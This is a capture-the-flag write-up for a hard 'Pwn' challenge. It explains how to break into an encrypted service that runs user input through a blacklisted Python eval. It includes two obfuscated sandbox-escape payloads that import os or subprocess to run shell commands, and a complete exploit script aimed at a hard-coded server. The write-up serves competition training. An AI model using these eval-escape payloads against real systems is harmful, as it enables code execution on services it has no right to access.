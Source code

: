 <img src="https://raw.githubusercontent.com/CTFae/media/main/brand/YT-banner.jpg" />

### Challenge: Odd Service
### Category: Pwn
### Difficulty: Hard
<hr>

#### Challenge Description
This challenge will need users to communicate securely with a service, fingerprint it to figure out where they are (python eval) then bypass a sandbox to achieve code execution.

#### Challenge Screenshot
![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/odd_service-1.png)

#### Solution
After the player figures out the encryption and writes code to securely communicate with the server, the player will be met with the following message:

![step_1](https://raw.githubusercontent.com/CTFae/media/main/writeups/odd_service-2.png)

Through trial and error, the player should find out they are inside a python eval statement. However, trying to execute an obvious payload such as `system(“ls -la”)` will realize that there is a blacklist put in place.

However, this blacklist is not so complicated and can be bypassed in different ways. Here are two possible payloads:

```py
__builtins__.__dict__['__imp'+'ort__']('o'+'s').__dict__['popen']('/bin/cat flag.txt').read()
```

or

```py
__builtins__.__dict__[standard_b64decode('X19pbXBvcnRfXw==').decode('utf-8')](standard_b64decode('c3VicHJvY2Vzcw==').decode('utf-8')).__dict__['check_output'](['cat','flag.txt']).decode('utf-8')
```

Note that the use of `system()` will not work as a valid payload because it does not return output.

After the user encrypts this payload, sends it and decrypts the response they will be able to achieve code execution and therefore extract the flag.

#### Exploit Screenshot
![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/odd_service-3.png)


#### Exploit Script
```py
import socket
import random
import string
import re
from base64 import standard_b64decode
from base64 import standard_b64encode
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
import struct

HOST, PORT = "52.170.158.124", 1337

def decrypt(msg, key):
    decoded = standard_b64decode(msg)
    cipher = AES.new(key.encode('utf-8'), AES.MODE_ECB)
    return unpad(cipher.decrypt(decoded), 32).decode('utf-8')

def encrypt(msg, key):
    padded = pad(msg.encode('utf-8'), 32)
    cipher = AES.new(key.encode('utf-8'), AES.MODE_ECB)
    return standard_b64encode(cipher.encrypt(padded))

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
    # Connect to server and send data
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_LINGER,struct.pack('ii', 1, 0))
    sock.connect((HOST, PORT))
    received = str(sock.recv(1024), "utf-8")
    key = re.search("'(.*)'", received).group(1)
    print("Key: {}".format(key))

    # Let's grab the hello message
    msg = str(sock.recv(1024), "utf-8")
    print("Msg: {}".format(msg))

    # # Decrypt it
    hello_msg_decoded = decrypt(msg, key)
    print("Decoded hello message: {}".format(hello_msg_decoded))

    # Okay now we can send input
    print("Sending payload...")
    #sock.sendall(encrypt("__builtins__.__dict__[standard_b64decode('X19pbXBvcnRfXw==').decode('utf-8')](standard_b64decode('c3VicHJvY2Vzcw==').decode('utf-8')).__dict__['check_output'](['cat','flag.txt']).decode('utf-8')", key))
    sock.sendall(encrypt("__builtins__.__dict__['__imp'+'ort__']('o'+'s').__dict__['popen']('/bin/cat flag.txt').read()", key))
    msg = str(sock.recv(1024), "utf-8")
    print("Recieving response...")
    print(decrypt(msg, key))
```

<hr>

&copy; <a href="https://ctf.ae" target=_blank>CTF.ae</a>

